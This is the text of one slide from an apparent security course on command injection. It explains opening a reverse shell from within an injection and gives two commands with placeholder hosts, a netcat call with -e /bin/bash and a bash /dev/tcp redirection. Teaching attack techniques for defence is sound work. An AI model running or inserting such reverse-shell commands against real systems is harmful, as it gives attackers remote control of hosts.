

# Command Injection
32
Then within the injection, run
nc -e /bin/bash host port
Depending on the version of netcat, the -e parameter might not be implemented. There are other ways to issue the same command, like
sh -i >& /dev/tcp/ip/port 0>&1